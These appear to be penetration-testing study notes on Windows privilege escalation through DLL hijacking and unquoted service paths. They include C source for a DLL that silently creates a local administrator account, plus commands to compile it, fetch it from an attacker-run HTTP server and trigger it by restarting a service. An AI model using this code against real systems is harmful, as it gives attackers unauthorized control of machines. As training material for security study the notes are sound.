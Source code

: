 ```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
Standard DLL search order on current Windows versions
Find running processes: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
Start Process monitor and filter for target process (Use ProcMon64.exe?)
- Use `restart-servce servicename` if nothing is listed
- Search for DLLs with;
	- Operation `CreateFile` 
	- Details `NAME NOT FOUND` 
	- With path to a folder you control (see `$env:path` for paths)
- Create a DLL with that name (eg. `mousepad myDLL.cpp`) 
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user john password123! /add");
  	    i = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Cross-compile with mingw32: `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`
- Run http server and pull DLL onto target system: `iwr -uri http://192.168.xxx.xx/myDLL.dll -Outfile myDLL.dll`
- Move DLL to folder you control, then restart service with `restart-service servicename`
- Check for new user: `net user`
## Unquoted Service Paths
Look for services that have spaces in the file path, and create an .exe with part of the path
``` Example
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
